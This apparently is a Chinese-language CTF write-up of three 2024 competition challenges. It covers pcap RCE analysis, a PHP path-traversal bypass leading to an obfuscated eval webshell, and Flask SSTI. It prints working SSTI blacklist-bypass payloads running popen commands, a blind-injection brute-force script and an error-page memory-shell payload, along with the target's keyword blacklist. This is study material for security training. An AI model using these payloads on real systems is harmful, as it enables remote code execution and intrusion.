






+++
title = "铁三2024"
slug = "iron-three-2024"
description = "怎么什么都是我一个人在干"
date = "2024-12-15T21:24:24"
lastmod = "2024-12-15T21:24:24"
image = ""
license = ""
categories = ["赛题"]
tags = ["php", "flask"]
+++

# 0x01 前言

规则真他妈多

# 0x02 question

## zeroshell_1

进来之后看到流量包，然后看到唯一一个有参数的流量，跟踪http流量

```html
<html>
<head><link rel='stylesheet' type='text/css' href='/default.css'>
<script>
function loaded() {
  parent.document.getElementById("Throughput").innerHTML="2.32 Kbit/s (Connections: 10 Load: 0%)";
}
</script>
<title>sysinfo</title>
</head>
<body bgcolor=#ffffff topmargin=0 onload="loaded()">
<table border="0" cellpadding="0" cellspacing="0" width="100%">
<tr><td class=Smaller2 nowrap>CPU (2)</td><td class=Smaller2 style='color:#2020F0'><b> 11th Gen Intel(R) Core(TM) i7-1165G7 @ 2.80GHz 2803MHz</b></td><td width=1% class=Smaller2 align=right><a href=# onclick='newwin=open("kerbynet?STk=38a9f841450fa9d81539fc88fa420d3fc7c2003e&Action=Render&Object=cpu_details", "CPUDetails","top=300,left=400,width=600,height=400,scrollbars=no,menubar=no,toolbar=no,statusbar=no");newwin.focus();'>Details</a></td></tr>
<tr><td class=Smaller2 nowrap>Kernel</td><td class=Smaller2>4.14.29-ZS</td><td></td></tr>
<tr><td class=Smaller2 nowrap>Memory&nbsp;&nbsp;</td><td class=Smaller2>        3109404 kB&nbsp;&nbsp;(3% used)</td><td class=Smaller2 align=right><a href=# onclick='newwin=open("kerbynet?STk=38a9f841450fa9d81539fc88fa420d3fc7c2003e&Action=Render&Object=mrtg_show&Type=System", "MRTG","top=200,left=200,width=800,height=480,scrollbars=yes,menubar=no,toolbar=no,statusbar=no");newwin.focus();'>Graphics</a></td></tr>
<tr><td class=Smaller2 nowrap>Uptime</td><td class=Smaller2>0 days, 0:51</td><td class=Smaller2></td></tr>
<script>
top.sommario.document.getElementById('AlertsMsg').innerHTML="<b>None</b>&nbsp;&nbsp;&nbsp;"
</script>
</table>
</body>
</html>
```



然后把回包的建造成一个网页



然后再看看TCP流量发现成功RCE，把referer头base64解密即可



## hello_web

```
view-source:http://eci-2ze0itazj3474bpvn2hc.cloudeci1.ichunqiu.com/index.php?file=/etc/passwd
```

进来读取到了

```
<!-- ../hackme.php -->
<!--  ../tips.php  -->
<div style='text-align: center;'></div>
```

双写绕过来读取文件

```
..././hackme.php
```

```php
<?php
highlight_file(__FILE__);
$lJbGIY="eQOLlCmTYhVJUnRAobPSvjrFzWZycHXfdaukqGgwNptIBKiDsxME";$OlWYMv="zqBZkOuwUaTKFXRfLgmvchbipYdNyAGsIWVEQnxjDPoHStCMJrel";$lapUCm=urldecode("%6E1%7A%62%2F%6D%615%5C%76%740%6928%2D%70%78%75%71%79%2A6%6C%72%6B%64%679%5F%65%68%63%73%77%6F4%2B%6637%6A");
$YwzIst=$lapUCm{3}.$lapUCm{6}.$lapUCm{33}.$lapUCm{30};$OxirhK=$lapUCm{33}.$lapUCm{10}.$lapUCm{24}.$lapUCm{10}.$lapUCm{24};$YpAUWC=$OxirhK{0}.$lapUCm{18}.$lapUCm{3}.$OxirhK{0}.$OxirhK{1}.$lapUCm{24};$rVkKjU=$lapUCm{7}.$lapUCm{13};$YwzIst.=$lapUCm{22}.$lapUCm{36}.$lapUCm{29}.$lapUCm{26}.$lapUCm{30}.$lapUCm{32}.$lapUCm{35}.$lapUCm{26}.$lapUCm{30};eval($YwzIst("JHVXY2RhQT0iZVFPTGxDbVRZaFZKVW5SQW9iUFN2anJGeldaeWNIWGZkYXVrcUdnd05wdElCS2lEc3hNRXpxQlprT3V3VWFUS0ZYUmZMZ212Y2hiaXBZZE55QUdzSVdWRVFueGpEUG9IU3RDTUpyZWxtTTlqV0FmeHFuVDJVWWpMS2k5cXcxREZZTkloZ1lSc0RoVVZCd0VYR3ZFN0hNOCtPeD09IjtldmFsKCc/PicuJFl3eklzdCgkT3hpcmhLKCRZcEFVV0MoJHVXY2RhQSwkclZrS2pVKjIpLCRZcEFVV0MoJHVXY2RhQSwkclZrS2pVLCRyVmtLalUpLCRZcEFVV0MoJHVXY2RhQSwwLCRyVmtLalUpKSkpOw=="));
?>
```



然后找在线工具解密出来

```
http://www.zhaoyuanma.com/phpjm.html
```



然后链接antsword，慢慢找flag文件，根本不用绕过disable

在`/var/run/log/7644726452869eab8499392526d56510/flag`

---

下来看了一下



然后后面有个`.`，php特性，为了.能够正确解析把`_`换成`[`即可

## Safe_Proxy

```python
from flask import Flask, request, render_template_string
import socket
import threading
import html

app = Flask(__name__)

@app.route('/', methods=["GET"])
def source():
    with open(__file__, 'r', encoding='utf-8') as f:
        return '<pre>'+html.escape(f.read())+'</pre>'

@app.route('/', methods=["POST"])
def template():
    template_code = request.form.get("code")
    # 安全过滤
    blacklist = ['__', 'import', 'os', 'sys', 'eval', 'subprocess', 'popen', 'system', '\r', '\n']
    for black in blacklist:
        if black in template_code:
            return "Forbidden content detected!"
    result = render_template_string(template_code)
    print(result)
    return 'ok' if result is not None else 'error'

class HTTPProxyHandler:
    def __init__(self, target_host, target_port):
        self.target_host = target_host
        self.target_port = target_port

    def handle_request(self, client_socket):
        try:
            request_data = b""
            while True:
                chunk = client_socket.recv(4096)
                request_data += chunk
                if len(chunk) < 4096:
                    break

            if not request_data:
                client_socket.close()
                return

            with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as proxy_socket:
                proxy_socket.connect((self.target_host, self.target_port))
                proxy_socket.sendall(request_data)

                response_data = b""
                while True:
                    chunk = proxy_socket.recv(4096)
                    if not chunk:
                        break
                    response_data += chunk

            header_end = response_data.rfind(b"\r\n\r\n")
            if header_end != -1:
                body = response_data[header_end + 4:]
            else:
                body = response_data
                
            response_body = body
            response = b"HTTP/1.1 200 OK\r\n" \
                       b"Content-Length: " + str(len(response_body)).encode() + b"\r\n" \
                       b"Content-Type: text/html; charset=utf-8\r\n" \
                       b"\r\n" + response_body

            client_socket.sendall(response)
        except Exception as e:
            print(f"Proxy Error: {e}")
        finally:
            client_socket.close()

def start_proxy_server(host, port, target_host, target_port):
    proxy_handler = HTTPProxyHandler(target_host, target_port)
    server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server_socket.bind((host, port))
    server_socket.listen(100)
    print(f"Proxy server is running on {host}:{port} and forwarding to {target_host}:{target_port}...")

    try:
        while True:
            client_socket, addr = server_socket.accept()
            print(f"Connection from {addr}")
            thread = threading.Thread(target=proxy_handler.handle_request, args=(client_socket,))
            thread.daemon = True
            thread.start()
    except KeyboardInterrupt:
        print("Shutting down proxy server...")
    finally:
        server_socket.close()

def run_flask_app():
    app.run(debug=False, host='127.0.0.1', port=5000)

if __name__ == "__main__":
    proxy_host = "0.0.0.0"
    proxy_port = 5001
    target_host = "127.0.0.1"
    target_port = 5000

    # 安全反代，防止针对响应头的攻击
    proxy_thread = threading.Thread(target=start_proxy_server, args=(proxy_host, proxy_port, target_host, target_port))
    proxy_thread.daemon = True
    proxy_thread.start()

    print("Starting Flask app...")
    run_flask_app()
```

成功绕过但是没有回显

```
{{cycler['\x5f\x5finit\x5f\x5f']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimp''ort\x5f\x5f']('o''s')['po''pen']('whoami').read()}}
```

需要盲注，那我们写payload

```
{{cycler['\x5f\x5finit\x5f\x5f']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['open']('flag').read()}}
```

然后盲注的话

```
{{cycler['\x5f\x5finit\x5f\x5f']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['open']('flag').read(1)[0]=='f'}}
```

本地打通了 

```python
import sys

import requests
url="http://127.0.0.1:5000?name="
strings="qwertyuiopasdfghjklzxcvbnm,.-+0123456789{}"
target=""

for i in range(50):
    found=False
    print(i)
    for j in strings:
        payload=f"{{{{cycler['\x5f\x5finit\x5f\x5f']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['open']('flag').read({i+1})[{i}]=='{j}'}}}}"
        # print(payload)

        r=requests.get(url=url+payload)
        print(r.text)
        if "True" in r.text:
            found=True
            print(j)
            target+=j
            print(target)
        elif "False" in r.text:
            found=True

    print(target)

```

还是不可以，但是上网搜索可以打内存马，把500页面可控

[可控500界面文章](https://lisien11.xyz/2024/11/19/python-flask-%E6%96%B0%E5%9E%8B%E5%9B%9E%E6%98%BE%E7%9A%84%E5%AD%A6%E4%B9%A0%E5%92%8C%E8%BF%9B%E4%B8%80%E6%AD%A5%E7%9A%84%E6%B7%B1%E5%85%A5/?highlight=%E5%9B%9E%E6%98%BE)

```
code={{cycler['\x5f\x5finit\x5f\x5f']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['setattr'](((lipsum['\x5f\x5fspec\x5f\x5f']|attr('\x5f\x5finit\x5f\x5f')|attr('\x5f\x5fglobals\x5f\x5f'))['s'+'ys']|attr('modules'))['werkzeug']|attr('exceptions')|attr('InternalServerError'),"description",url_for['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimp''ort\x5f\x5f']('o'+'s')['pop'+'en']('cat /flag').read())}}
# 然后报错
code={{{7+7}}}
```

成功拿到flag

# 0x03 

其他的misc不写了，挺奇怪的
